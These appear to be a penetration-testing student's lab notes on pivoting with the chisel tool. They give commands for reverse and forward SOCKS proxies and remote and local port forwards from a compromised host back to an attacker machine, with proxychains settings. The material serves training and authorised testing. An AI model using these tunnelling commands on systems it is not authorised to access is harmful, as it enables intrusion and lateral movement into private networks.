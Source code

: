 [Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.  

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:

![[Pasted image 20220116095403.png]]

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:  
```bash - kali
scp -i KEY chisel $USER@$TARGET:/tmp/chisel-USERNAME
```

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`

We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read through the help pages for the tool for this reason.


__**Reverse SOCKS Proxy:**_  
_Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.  

On our own attacking box we would use a command that looks something like this:  
```bash - kali
./chisel server -p LISTEN_PORT --reverse &  
```

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
```bash - target
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```  

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.

![[Pasted image 20220116095519.png]]

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to _remotes_ (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.  

__**Forward SOCKS Proxy:**_  
_Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.  

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:  
```bash - target
./chisel server -p LISTEN_PORT --socks5
```  

On our own attacking box we would then use:  
```bash - kali
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.  

**Proxychains Reminder:**  
When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:  

```bash - kali
[ProxyList]  
# add proxy here ...  
# meanwhile  
# defaults set to "tor"  
socks5  127.0.0.1 1080  
```

**_Note:_** _The above configuration is for a reverse SOCKS proxy -- as mentioned previously, the proxy opens on port 1080 rather than the specified listening port (1337). If you use proxychains with a forward proxy then the port should be set to whichever port you opened (1337 in the above example)._

Now that we've seen how to use chisel to create a SOCKS proxy, let's take a look at using it to create a port forward with chisel.

_**Remote Port Forward:**_A remote port forward is when we connect back from a compromised target to create the forward.  

For a remote port forward, on our attacking machine we use the exact same command as before:  
```bash - target
./chisel server -p LISTEN_PORT --reverse &
```

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
```bash - target
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```  

Connecting back to our attacking machine, functioning as a chisel server started with:  
```bash - target
./chisel server -p 1337 --reverse &
```  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

__**Local Port Forward:**_  
_As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
```bash - target
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```
